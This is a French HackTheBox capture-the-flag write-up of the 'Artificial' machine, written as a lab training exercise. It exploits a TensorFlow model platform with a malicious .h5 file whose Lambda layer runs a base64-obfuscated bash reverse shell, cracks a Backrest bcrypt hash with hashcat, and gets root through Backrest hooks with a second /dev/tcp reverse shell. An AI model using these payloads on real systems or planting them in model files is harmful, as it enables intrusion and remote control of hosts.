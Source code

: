 ```yaml
---
title: Artificial(HackTheBox) - TensorFlow RCE & Backup PrivEsc
date: 2025-10-30 01:40:29 +0000
description: Writeup complet de la machine Artificial sur HackTheBox - exploitation TensorFlow, reverse shell et escalation via Backrest.
categories: [HacktheBox]
tags: [HTB, CTFs, Hacking]
image:
    path: https://i.ibb.co/mFYqwN70/1.png
---
```



- **[The Best Academy to Learn Hacking](https://referral.hackthebox.com/mz6xj5g)**.
- **[Beginner Friendly challenges on TryHackMe](https://tryhackme.com/signup?referrer=61e8a27ddd3f3b00496505d1)**.


## Vidéo

<iframe width="560" height="315" src="https://www.youtube.com/embed/7-oRUEfrlD4?si=PZQ3REPbO8PYJRW9" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" referrerpolicy="strict-origin-when-cross-origin" allowfullscreen></iframe>

## Introduction

Salut à tous ! Aujourd'hui, je vous partage mon writeup sur la machine **Artificial** de HackTheBox. C'est une box Linux classée facile, mais qui propose un vrai scénario autour de l'intelligence artificielle et des systèmes de backup. On va voir comment exploiter une plateforme web qui fait tourner des modèles TensorFlow, puis comment abuser Backrest et restic pour finir root.

---

On commence par un scan Nmap :

```bash
nmap -sV -Pn -p1-65535 --min-rate 3000 10.10.11.74 -oN artificial.nmap -v
nmap -sCV -Pn -p80 10.10.11.74
```

On trouve deux ports ouverts : SSH (22) et HTTP (80). Sur le port 80, il y a une plateforme web dédiée à l’IA, qui permet de créer, tester et déployer des modèles TensorFlow. L’interface est vraiment orientée data science, avec des options pour builder des modèles, les tester en live, et les déployer.

Un des cas d’usage mis en avant est la prédiction des ventes via l’IA. La plateforme analyse les historiques et propose des prévisions pour optimiser la stratégie commerciale.

Exemple de code pour builder un modèle :

```python
import numpy as np
import pandas as pd
import tensorflow as tf
from tensorflow import keras
from tensorflow.keras import layers

np.random.seed(42)
hours = np.arange(0, 24 * 7)
profits = np.random.rand(len(hours)) * 100

data = pd.DataFrame({
    'hour': hours,
    'profit': profits
})

X = data['hour'].values.reshape(-1, 1)
y = data['profit'].values

model = keras.Sequential([
    layers.Dense(64, activation='relu', input_shape=(1,)),
    layers.Dense(64, activation='relu'),
    layers.Dense(1)
])
model.compile(optimizer='adam', loss='mean_squared_error')
model.fit(X, y, epochs=100, verbose=1)
model.save('profits_model.h5')
```

On nous conseille d’utiliser TensorFlow 2.13.1 (CPU) ou leur Dockerfile pour builder le modèle dans le bon environnement :

```plaintext
# requirements.txt
tensorflow-cpu==2.13.1
```

Ou alors, on peut builder le modèle avec leur Dockerfile :

```Dockerfile
FROM python:3.8-slim
WORKDIR /code
RUN apt-get update && \
    apt-get install -y curl vim nano && \
    curl -k -LO https://files.pythonhosted.org/packages/65/ad/4e090ca3b4de53404df9d1247c8a371346737862cfe539e7516fd23149a4/tensorflow_cpu-2.13.1-cp38-cp38-manylinux_2_17_x86_64.manylinux2014_x86_64.whl && \
    rm -rf /var/lib/apt/lists/*
RUN pip install ./tensorflow_cpu-2.13.1-cp38-cp38-manylinux_2_17_x86_64.whl
ENTRYPOINT ["/bin/bash"]
```

## Exploitation TensorFlow RCE

En cherchant un peu, je tombe sur un article qui explique comment exploiter TensorFlow via un modèle .h5 malicieux : [TensorFlow RCE using .h5](https://splint.gitbook.io/cyberblog/security-research/tensorflow-remote-code-execution-with-malicious-model).

J’ai adapté l’exploit pour avoir un modèle minimal :

```python
import tensorflow as tf
import os

def exploit(x):
    os.system("printf KGJhc2ggPiYgL2Rldi90Y3AvMTAuMTAuMTQuNjAvNDQ0NSAwPiYxKSAm|base64 -d|bash")
    return x

model = tf.keras.Sequential([
    tf.keras.layers.Input(shape=(1,)),
    tf.keras.layers.Lambda(exploit, name="payload"),
    tf.keras.layers.Dense(1)
])
model.compile(optimizer='adam', loss='mse')
model.save("hacked.h5")
print("Micro modèle infecté créé")
```

En uploadant ce modèle sur la plateforme, j’obtiens direct un shell en tant que l’utilisateur `app` :

```bash
$ python3 penelope.py -i tun0 -p 4445
[+] Got reverse shell from artificial~10.10.11.74-Linux-x86_64
bash-5.0$ id
uid=1001(app) gid=1001(app) groups=1001(app)
```

En fouillant, je trouve la clé Flask et la base SQLite avec les utilisateurs :

```python
app = Flask(__name__)
app.secret_key = "Sup3rS3cr3tKey4rtIfici4L"
```

```bash
$ ls instance/
users.db
$ sqlite3 instance/users.db
sqlite> .tables
model  user
sqlite> select * from user;
# ... liste des users et hash/password ...
```

Dans `/home`, il y a deux users :

```bash
$ ls /home
app  gael
```

## Privilege Escalation

En regardant les ports, je vois qu’il y a un service qui écoute sur 9898 en local. Je fais un port forwarding SSH avec l’utilisateur `gael` :

```bash
$ ssh -L 9898:127.0.0.1:9898 gael@artificial.htb
```

Je tombe sur une interface Backrest 1.7.2. En fouillant `/opt/backrest` et `/var/backups`, je trouve un backup et un fichier de config avec un hash bcrypt :

```json
{
  "name": "backrest_root",
  "passwordBcrypt": "JDJhJDEwJGNWR0l5OVZNWFFkMGdNNWdpbkNtamVpMmtaUi9BQ01Na1Nzc3BiUnV0WVA1OEVCWnovMFFP"
}
```

Je décode le hash en base64 puis je le crack avec hashcat :

```bash
echo "JDJhJDEwJGNWR0l5OVZNWFFkMGdNNWdpbkNtamVpMmtaUi9BQ01Na1Nzc3BiUnV0WVA1OEVCWnovMFFP" | base64 -d > hash.txt
hashcat -a 0 -m 3200 hash.txt /usr/share/wordlists/rockyou.txt
```

Le mot de passe est `!@#$%^`.

Une fois connecté, je manipule les hooks et en cliquant sur “Backup Now”, j’obtiens un shell root :

```bash
root@artificial:/# id
uid=0(root) gid=0(root) groups=0(root)
```

On peut aussi utiliser la fonctionnalité “Run Command in repo” pour exécuter une commande et obtenir un shell :

```bash
check --password-command 'bash -c "/bin/bash -i >& /dev/tcp/10.10.14.60/4443 0>&1"'
```

## Ressources supplementaires
Voici quelques ressources supplémentaires qui pourraient vous être utiles :
- [TensorFlow RCE using .h5](https://splint.gitbook.io/cyberblog/security-research/tensorflow-remote-code-execution-with-malicious-model)
- [Documentation Backrest](https://backrest.io/docs)
- **Love my articles?** Follow me sur [Twitter](https://x.com/@bloman19) et [Github](https://github.com/0xabdoulaye)
- [Join Us on Discord](https://discord.gg/836VBXMFdx).